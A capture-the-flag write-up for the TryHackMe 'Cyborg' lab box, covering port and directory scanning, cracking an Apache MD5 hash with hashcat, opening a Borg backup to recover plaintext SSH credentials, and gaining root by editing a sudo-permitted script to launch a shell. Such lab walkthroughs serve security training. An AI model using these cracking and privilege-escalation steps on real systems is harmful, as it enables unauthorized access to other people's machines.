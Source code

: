#  [Cyborg](https://tryhackme.com/room/cyborgt8)

## Getting access

To start, an `nmap` scan

```
# Nmap 7.91 scan initiated Thu Feb 11 14:34:52 2021 as: nmap -vvv -p 22,80 -sCV -oA nmap/init 10.10.173.62
Nmap scan report for box.ip (10.10.173.62)
Host is up, received syn-ack (0.27s latency).
Scanned at 2021-02-11 14:34:53 +07 for 18s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 11 14:35:11 2021 -- 1 IP address (1 host up) scanned in 19.28 seconds
```

The application on port 80 is just the default Apache page, so let's gobuster

```sh
$ gobuster dir -u http://box.ip/etc/ -w path/to/wordlist -x html,php
/index.html (Status: 200)
/admin (Status: 301)
/etc (Status: 301)
```

The page at `/admin` doesn't have anything interesting (at least not at `/admin/index.html`), so let's `gobuster` at `/admin/`

```sh
$ gobuster dir -u http://box.ip/admin/ -w path/to/wordlist -x html,php
/index.html (Status: 200)
/admin.html (Status: 200)
```

We have at `/admin/admin.html` the admin shoutbox ...

![/admin/admin.html](./admin_admin.png)

... which has some interesting mentions of a badly configured squid proxy, as well as a backup named "music_archive" to look out for. Additionally, there's the file `archive.tar` to be downloaded.

Going back to our `gobuster` results, `/etc` has directory listing and `/etc/squid` has a couple of interesting files

![/etc](./etc.png)
![/etc/squid](./etc_squid.png)

`passwd` has the credential `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.` and `squid.conf` holds the configuration for a squid proxy.

Here, `$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.` is an MD5 hash

```sh
$ hashid '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.'
Analyzing '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.'
[+] MD5(APR)
[+] Apache MD5
```

... which we can crack with something like `hashcat`

```sh
hashcat -m 1600 hash_file path/to/rockyou
```

This gives us the password `squidward`.

Extracting `archive.tar`, we get:

```sh
$ tree archive/
archive/
└── home
    └── field
        └── dev
            └── final_archive
                ├── config
                ├── data
                │   └── 0
                │       ├── 1
                │       ├── 3
                │       ├── 4
                │       └── 5
                ├── hints.5
                ├── index.5
                ├── integrity.5
                ├── nonce
                └── README

6 directories, 10 files
```

The file `archive/home/field/dev/final_archive/README` tells us this is a [Borg backup](https://borgbackup.readthedocs.io/), so I installed `borg` (`sudo pacman -S borg` on Arch Linux).

Trying to list the backup contents prompts us for a passphrase, for which we can use the previously found password `squidward`.

```sh
$ borg list archive/home/field/dev/final_archive/
Enter passphrase for key /home/j/ctf/thm/cyborgt8/archive/home/field/dev/final_archive:
music_archive                        Tue, 2020-12-29 21:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

... we see the `music_archive` previously mentioned in the admin shout page, so we `extract` it

```sh
$ borg extract archive/home/field/dev/final_archive/::music_archive
Enter passphrase for key /home/j/ctf/thm/cyborgt8/archive/home/field/dev/final_archive:
```

This gives us the directory `/home` and credentials in `note.txt`

```sh
$ tree home/
home/
└── alex
    ├── Desktop
    │   └── secret.txt
    ├── Documents
    │   └── note.txt
    ├── Downloads
    ├── Music
    ├── Pictures
    ├── Public
    ├── Templates
    └── Videos

9 directories, 2 files

$ cat home/alex/Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

... and with that we can get an SSH shell on the system.

## Privilege Escalation

A `sudo -l` reveals a script we can run without a password

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

alex@ubuntu:~$ ls -l /etc/mp3backups/backup.sh
-r-xr-xr-- 1 alex alex 1083 Dec 30 01:48 /etc/mp3backups/backup.sh*
```

so we add write permission and add a `/bin/bash` to it

```sh
alex@ubuntu:~$ chmod u+w /etc/mp3backups/backup.sh
alex@ubuntu:~$ vi /etc/mp3backups/backup.sh
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh
root@ubuntu:~#
```

... and we've got `root`!
